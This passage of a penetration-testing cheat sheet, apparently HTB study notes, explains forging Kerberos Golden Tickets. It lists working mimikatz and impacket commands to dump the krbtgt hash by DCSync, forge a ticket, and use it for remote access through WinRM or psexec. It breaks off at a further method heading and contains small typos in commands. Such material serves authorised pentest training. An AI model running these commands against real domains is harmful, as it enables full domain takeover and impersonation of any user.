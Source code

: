 * kekeo: `misc::convert ccache ticket.kirbi`
* impacket: `impacket-ticketConverter SRV01.kirbi SRV01.ccache`

## Golden Tickets

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user — including Domain Admins — on a compromised Active Directory domain.

**Requirements**:

| Requirement       | Description |
| ----------------- | ----------- |
| Domain name       | corp.local  |
| Domain SID        | S-1-5-21-1234567890-2345678901-3456789012 |
| KRBTGT NTLM hash  | The NTLM hash of the KRBTGT account |
| Username          | Administrator |
| (Optional) Groups | Add group SIDs for elevated access (e.g., Domain Admin) |

As a result of `CVE-2021-42287` mitigations, the ticket cannot use a non-existent account name.

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt NT hash must be used.

### Golden Ticket Creation
#### HTB Method(Windows)
* Retrieve the Domain SID
```powershell
Import-Module .\PowerView.ps1
```
* Get the KRBTGT Hash
```powerhsell
.\mimikatz.exe
lsadump::dcsync /urser:krbtgt /domain:<domain>
```
* Forge the Golden Ticket
```powershell
# Still in mimikatz
kerberos::golden /domain:<domain> /user:Administrator /sid:<domain sid> /rc4:<krbtgt NTLM hash> /ptt
```
* Use WINRM to connect
```powershell
Enter-PSSession dc01
```
#### HTB Method(Linux)
* Retrieve the Domain SID
```bash
impacket-lookupsid <domain>/<user>@<DC FQDN> -domain-sids
```
* Create the ticket using Ticketer.python 
```bash
impacket-ticketer -nthash <NT Hash> -domain-sid <domain sid> -domain <domain> <user>
```
* Importing and Using the ticket
```bash
export KRB5CCNAME=<ticket.ccache>
impacket-psexec -k -no-pass <TARGET-HOST>
```
#### Swisskey Method
* Retrieve the Domain SID
